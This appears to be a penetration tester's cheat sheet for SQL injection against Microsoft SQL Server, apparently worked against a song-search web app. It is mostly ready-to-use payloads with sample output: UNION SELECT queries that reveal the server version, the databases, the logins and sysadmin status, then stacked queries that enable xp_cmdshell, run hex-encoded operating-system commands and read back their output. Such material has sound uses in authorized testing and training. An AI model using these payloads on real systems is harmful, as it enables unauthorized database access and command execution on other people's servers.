 # MSSQL

[http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)  
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)

## UNION SELECT

### Getting version 

```text
' UNION SELECT (SELECT @@version),2 --
```

Song name: Microsoft SQL Server 2012 - 11.0.2100.60 \(X64\) Feb 10 2012 19:39:15 Copyright \(c\) Microsoft Corporation Express Edition \(64-bit\) on Windows NT 6.2 \(Build 9200: \) \(Hypervisor\) - From the year: 2

### Getting current DB:

```text
' UNION SELECT (SELECT DB_NAME()),2 --
```

Song name: music - From the year: 2

### Getting current user:

Song name: dbo - From the year: 2

### Is our user a sysadmin:

```text
' UNION SELECT (SELECT is_srvrolemember('sysadmin')),2 --
```

Song name: **1** - From the year: 2  
\(returns 1 for true, 0 for false\)

### Listing databases:

```text
' UNION SELECT (SELECT DB_NAME(N)),2 --
```

Increment N to go through all the databases.

Song name: master - From the year: 2  
Song name: tempdb - From the year: 2  
Song name: model - From the year: 2  
Song name: msdb - From the year: 2  
Song name: music - From the year: 2

#### Using CAST: 

```text
' UNION ALL SELECT CAST(name AS NVARCHAR(4000)),NULL FROM master..sysdatabases--
```

Song name: master - From the year:   
Song name: tempdb - From the year:   
Song name: model - From the year:   
Song name: msdb - From the year:   
Song name: music - From the year:

### Listing users using CAST:

```text
' UNION ALL SELECT CAST(name AS NVARCHAR(4000)),NULL FROM master..syslogins--
```

Song name: sa - From the year:   
Song name: \#\#MS\_SQLResourceSigningCertificate\#\# - From the year:   
Song name: \#\#MS\_SQLReplicationSigningCertificate\#\# - From the year:   
Song name: \#\#MS\_SQLAuthenticatorCertificate\#\# - From the year:   
Song name: \#\#MS\_PolicySigningCertificate\#\# - From the year:   
Song name: \#\#MS\_SmoExtendedSigningCertificate\#\# - From the year:   
Song name: \#\#MS\_PolicyEventProcessingLogin\#\# - From the year:   
Song name: \#\#MS\_PolicyTsqlExecutionLogin\#\# - From the year:   
Song name: \#\#MS\_AgentSigningCertificate\#\# - From the year:   
Song name: \*\*\Administrator - From the year:   
Song name: NT SERVICE\SQLWriter - From the year:   
Song name: NT SERVICE\Winmgmt - From the year:   
Song name: NT SERVICE\MSSQL$SQLEXPRESS - From the year:   
Song name: BUILTIN\Users - From the year:   
Song name: NT AUTHORITY\SYSTEM - From the year:

## xp\_cmdshell

### Checking if our user is a sysadmin

```text
' UNION SELECT (SELECT is_srvrolemember('sysadmin')),2 --
```

Running xp-cmdshell and getting the output. 

### Enabling xp\_cmdshell

```text
';EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

### Running commands

#### Setting up the table:

```text
';CREATE TABLE sqlmapoutput(id INT PRIMARY KEY IDENTITY, data NVARCHAR(4000))--
```

#### Running the command:

@cmd= {hex encoded command} 

For example whoami -- &gt; **0x**77686f616d69

```text
';DECLARE @cmd VARCHAR(8000);SET @cmd=0x77686f616d69;INSERT INTO sqlmapoutput(data) EXEC master..xp_cmdshell @cmd--
```

Will insert command output into the sqlmapout table.

#### Reading the output:

```text
' UNION ALL SELECT CAST(data AS NVARCHAR(4000)),NULL FROM sqlmapoutput--
```

#### Deleting the table: 

```text
';DELETE FROM sqlmapoutput--
```

#### Drop the table:

```text
';DROP TABLE sqlmapoutput--
```

